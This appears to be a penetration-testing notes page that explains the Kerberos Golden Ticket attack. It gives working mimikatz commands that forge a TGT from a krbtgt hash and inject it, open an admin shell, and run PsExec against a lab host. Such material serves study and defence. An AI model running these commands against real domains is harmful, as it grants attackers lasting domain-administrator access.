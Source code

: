 # Golden Ticket

## Intro

Golden Ticket Attack is also a good example of the Pass the Ticket Attack.  the most infamous kerberos attack is known as the Golden Ticket which obviously is a kerberos ticket but with some differences.

{% hint style="info" %}
in order to create a valid TGT \(with a valid PAC\) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical \(krbtgt\). we would thus have to obtain the NTLM hash of the krbtgt account \(RC4\) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT \(golden ticket\). there is no prior credential submission or AS\_REQ/AS-REP.

the difference between a golden ticket and other tickets \(including the silver ticket \) is:

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key \(which is not easy to get\)
3. its typically a TGT for an administrative account \(RID 500 in a domain or domain administrator\)
4. its typically valid for a long time \(10 years by default\)

## 
Creating a Golden Ticket

**with mimikatz we can create a Golden Ticket if we have the following information:**

**KDC LT key \(e.g: krbtgt NTLM hash\)**

**Domain admin account name**

**SID of domain admin account**



#### all of these values can be obtained by any user in the domain except for KDC LT key.

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```text
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](../../../../.gitbook/assets/image%20%28200%29.png)

now we can get a shell with admin privileges:

```text
misc::cmd
```

![](../../../../.gitbook/assets/image%20%28201%29.png)

or using psexe:

```text
PsExec64.exe \\192.168.1.105 cmd.exe
```

